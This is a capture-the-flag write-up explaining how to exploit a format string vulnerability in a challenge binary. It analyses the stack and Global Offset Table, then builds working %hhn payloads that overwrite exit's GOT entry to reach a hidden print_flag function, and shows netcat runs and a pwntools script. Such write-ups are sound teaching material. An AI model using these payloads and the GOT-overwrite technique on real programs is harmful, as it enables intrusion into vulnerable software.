 # Write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.  
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.  
The address of `print_flag` in little endian byte order is `AB 85 04 08`.  
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing,

Write`0xAB`  \(171\) to `0804A01C`

Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C`.  
\(The reverse is also possible where we have to use wrap around. More on this next\).

#### Building the exploit string

Our exploit string will start with the two addresses in little endian byte order.

```
    -------------8 bytes------------
    |               |              |
    |  1st address  | 2nd address  |
    |               |              |
    \x1d\xa0\x04\x08\x1c\xa0\x04\x08
```

This takes up 8 bytes.

The string is located at an offset of 12 bytes \(3 dwords\) from the pointer to itself \(See above\).  
To reach the start of the string on the stack we need to consume these 3 dwords.  
The format string that can be used is`%08x%08x%08x`

The exploit string generated till this point is

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08x
```

When this is passed to `printf`, the number of bytes it will display = 4 + 4 + 8 + 8 + 8 = 24

To reach 133, we still need to print `133 - 24 = 109` more bytes. We can append this 109 bytes to get:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Alternatively, we can make the last `%08x` to display 109 bytes using space padding:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x
```

Number of bytes displayed till now is 133. We can use the [format specifier](http://www.cplusplus.com/reference/cstdio/printf/) `%hhn` to write this value at the address specified. The address is a pointer to a variable and usually passed as an argument to printf. Here we have provided the address \(`0804A01D`\) at the beginning of the string itself.

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhn
```

`hh` is the length sub-specifier and it indicates to write a byte value i.e. the address is a pointer to a byte. If the value to write is larger than a byte, it would be automatically **wrapped**. The situation is similar for other length sub-specifiers such as `h`, `l` and `ll`. Without any length sub-specifier it defaults to `int`.

Now, at this point, we have written `0x85` \(133\) to the location `0804A01D`. In this process we have also displayed 133 bytes on the terminal.

The next task is to write `0xAB` \(171\) to the location `0804A01C` and for that we need to display `171 - 133 = 38` more bytes. These bytes can again be simply appended to the exploit string. Using this approach our final exploit string would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

```bash
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn'" > exploit
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��0000000200000000                                                                                                            0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

The exploit string can be simplified:

We can use [positional arguments](http://stackoverflow.com/a/6322594/1833653) to `printf` which would eliminate the need for consuming dwords using `%08x`. The exploit string in this case would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

**Alternative approach instead of appending 38 A's**

Alternatively, before the 2nd address, we can write a dummy dword \(`0xDEADBEEF` here\) and use something like `%38x`, however other field width sub-specifier also have to be reduced by 4.

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%08x%08x%105x%hhn%38x%hhn
```

## Using pwntools \(automated\)

#### Generate the exploit

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

#### Profit :\)

```bash
$ xxd exploit 
0000000: 1ca0 0408 1da0 0408 1ea0 0408 1fa0 0408  ................
0000010: 2531 3535 6325 3424 6868 6e25 3231 3863  %155c%4$hhn%218c
0000020: 2535 2468 686e 2531 3237 6325 3624 6868  %5$hhn%127c%6$hh
0000030: 6e25 3463 2537 2468 686e                 n%4c%7$hhn

$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```



